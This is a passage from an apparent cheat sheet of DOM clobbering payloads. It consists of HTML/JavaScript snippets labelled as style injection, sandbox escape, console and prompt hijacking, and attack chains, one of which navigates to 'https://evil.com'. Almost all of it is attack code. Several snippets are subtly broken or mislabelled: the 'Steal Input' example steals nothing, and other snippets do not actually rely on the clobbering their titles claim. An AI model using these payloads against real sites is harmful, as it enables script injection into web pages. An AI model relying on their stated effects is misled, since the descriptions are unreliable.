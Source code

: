 ### Style Injection via Clobbering
```html
<div id="a7"></div>
<script>
a7.innerHTML = `<style id="alert">body { background: url("javascript:alert('style')"); }</style>`;
</script>
```

### Sandbox Escape via form Clobbering
```html
<iframe sandbox id="a8"></iframe>
<script>
a8.contentWindow.document.write('<form id="window"></form><script>console.log(window.top)//</script>');
</script>
```

### Exploit console with toString Override
```html
<div id="a9"></div>
<script>
a9.innerHTML = `<form id="console"></form>`;
console.log = { toString: () => alert('Logged') };
console.log + ''; // Triggers
</script>
```

### Override prompt and Steal Input
```html
<div id="a10"></div>
<script>
a10.innerHTML = `<form id="prompt"></form>`;
try { prompt('Hi'); } catch(e) { console.log('Prompt hijacked'); }
</script>
```
## DOM Clobbering Chains

Exploit chains that combine DOM clobbering with other actions for advanced attacks. These examples illustrate how clobbering can escalate into navigation, crashes, or functionality hijacking.

### Clobber location and Navigate
```html
<a id="location" href="https://evil.com"></a>
<script>
location.assign('https://evil.com'); // Navigates to evil.com
</script>
```

### Override alert and Cause Errors
```html
<form id="alert"></form>
<script>
try {
  alert('This will fail');
} catch (e) {
  console.log('Alert is overridden:', e);
}
</script>
```
